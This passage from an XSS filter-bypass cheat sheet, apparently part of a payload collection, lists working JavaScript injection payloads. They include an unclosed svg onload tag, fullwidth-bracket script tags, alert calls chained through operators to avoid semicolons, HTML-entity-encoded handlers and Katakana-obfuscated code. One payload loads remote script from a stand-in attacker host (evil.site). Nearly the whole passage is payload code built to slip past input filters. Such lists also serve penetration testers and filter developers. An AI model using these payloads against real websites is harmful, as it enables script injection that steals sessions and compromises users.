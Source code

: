 ### Bypass ">" using nothing

You don't need to close your tags.

```javascript
<svg onload=alert(1)//
```

### Bypass "<" and ">" using ＜ and ＞

Unicode Character U+FF1C and U+FF1E

```javascript
＜script/src=//evil.site/poc.js＞
```

### Bypass ";" using another character

```javascript
'te' * alert('*') * 'xt';
'te' / alert('/') / 'xt';
'te' % alert('%') % 'xt';
'te' - alert('-') - 'xt';
'te' + alert('+') + 'xt';
'te' ^ alert('^') ^ 'xt';
'te' > alert('>') > 'xt';
'te' < alert('<') < 'xt';
'te' == alert('==') == 'xt';
'te' & alert('&') & 'xt';
'te' , alert(',') , 'xt';
'te' | alert('|') | 'xt';
'te' ? alert('ifelsesh') : 'xt';
'te' in alert('in') in 'xt';
'te' instanceof alert('instanceof') instanceof 'xt';
```

### Bypass using HTML encoding

```javascript
%26%2397;lert(1)
&#97;&#108;&#101;&#114;&#116;
></script><svg onload=%26%2397%3B%26%23108%3B%26%23101%3B%26%23114%3B%26%23116%3B(document.domain)>
```

### Bypass using Katana

Using the [Katakana](https://github.com/aemkei/katakana.js) library.

```javascript
javascript:([,ウ,,,,ア]=[]+{},[ネ,ホ,ヌ,セ,,ミ,ハ,ヘ,,,ナ]=[!!ウ]+!ウ+ウ.ウ)[ツ=ア+ウ+ナ+ヘ+ネ+ホ+ヌ+ア+ネ+ウ+ホ][ツ](ミ+ハ+セ+ホ+ネ+'(-~ウ)')()
```

### Bypass using Cuneiform
